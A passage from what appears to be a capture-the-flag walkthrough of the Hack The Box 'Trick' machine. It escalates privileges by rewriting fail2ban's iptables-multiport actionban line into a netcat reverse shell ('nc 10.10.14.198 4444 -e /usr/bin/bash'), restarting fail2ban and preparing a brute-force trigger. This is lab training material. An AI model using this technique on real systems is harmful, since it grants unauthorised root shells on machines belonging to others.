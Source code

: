 From the snippets of the config file we can see five failed attempts on SSH will cause the banaction defined in the file iptables-multiport. Looking in iptable-multiport.conf:

```text
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
```

Normally actionban is set to block the offending IP. We can change this to get a reverse shell. First copy the conf file to our home folder:

```text
michael@trick:~$ cp /etc/fail2ban/action.d/iptables-multiport.conf ./pencer.conf
```

Now use sed to change the line to our reverse shell:

```text
michael@trick:~$ sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/\/usr\/bin\/nc 10.10.14.198 4444 -e \/usr\/bin\/bash/g" pencer.conf > iptables-multiport.conf
```

Now we need to move the existing file because we can't delete or overwrite it:

```text
michael@trick:~$ mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf.bak
```

Finally put our file in its place and restart the fail2ban service:

```text
michael@trick:~$ cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf

michael@trick:~$ sudo /etc/init.d/fail2ban restart
```

In another terminal start nc listening for our reverse shell:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Create fake credentials to use with a brute force:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# cat users.txt 
a
b
c
d
e
f

┌──(root㉿kali)-[~/htb/trick]
└─# cat passwords.txt 
a
b
c
d
e
f
```
